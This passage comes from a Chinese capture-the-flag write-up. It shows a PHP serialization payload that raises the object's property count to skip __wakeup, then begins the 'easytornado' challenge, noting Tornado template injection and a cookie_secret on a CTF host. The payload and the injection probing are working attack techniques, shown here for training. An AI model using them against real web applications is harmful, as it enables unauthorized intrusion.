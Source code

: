 payload如下

```
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
}
$a = new xctf();
print(serialize($a));

?>
```

```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}    //1-->2即可绕过魔法函数
```

![image-20220626123536332](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261235408.png?x-oss-process=hzy)

> 当被反序列化的字符串其中对应的对象的属性个数发生变化时，会导致反序列化失败而同时__wakeup也会失效，实现绕过

# easytornado

> Tornado 框架

- ***Tornado 的 SSTI 漏洞***
- ***Tornado 中的 cookie_secret 值*** 
-  ***Python3 中的 hashlib 模块***

题目提示框架漏洞，谷歌找利用就行

![image-20220626124211039](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261242097.png?x-oss-process=hzy)

![image-20220626124222711](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261242766.png?x-oss-process=hzy)

![image-20220626124409420](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261244469.png?x-oss-process=hzy)

![image-20220626124415019](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261244068.png?x-oss-process=hzy)

直接访问不行

![image-20220626124725754](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261247806.png?x-oss-process=hzy)

```
但是发现http://111.200.241.244:57423/error?msg=Error对应Error，经过测试也证实了这一点
```

![image-20220626124816070](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261248119.png?x-oss-process=hzy)

存在ssti

![image-20220626124928654](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206261249699.png?x-oss-process=hzy)
